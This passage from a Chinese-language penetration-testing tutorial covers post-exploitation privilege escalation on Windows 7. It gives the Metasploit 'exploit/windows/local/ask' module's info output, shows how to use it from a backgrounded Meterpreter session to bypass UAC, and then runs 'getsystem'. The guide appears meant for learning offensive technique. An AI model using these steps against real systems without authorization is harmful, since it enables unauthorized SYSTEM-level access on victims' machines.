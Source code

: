 `background` 退出meterpreter，此时session还在的。

之后加载msf模块，

可查看信息。

```
msf5 exploit(windows/local/ask) > info

       Name: Windows Escalate UAC Execute RunAs
     Module: exploit/windows/local/ask
   Platform: Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2012-01-03

Provided by:
  mubix <mubix@hak5.org>
  b00stfr3ak

Available targets:
  Id  Name
  --  ----
  0   Windows

Check supported:
  No

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  FILENAME                    no        File name on disk
  PATH                        no        Location on disk, %TEMP% used if not set
  SESSION                     yes       The session to run this module on.
  TECHNIQUE  EXE              yes       Technique to use (Accepted: PSH, EXE)

Payload information:

Description:
  This module will attempt to elevate execution level using the 
  ShellExecute undocumented RunAs flag to bypass low UAC settings.

```

描述： 这个模块用更高级别去执行，达到绕过UAC限制。

攻击之后，win7就会弹出一个框，点击ok就可以进行 `getsystem`提权了。

默认uac设置的级别是默认，所以不会弹窗。(win+R打开，msconfig,工具 => 更改UAC设置)

[![w5IltJ.png](https://s1.ax1x.com/2020/09/19/w5IltJ.png)](https://imgchr.com/i/w5IltJ)

我们修改级别为高即会弹窗。
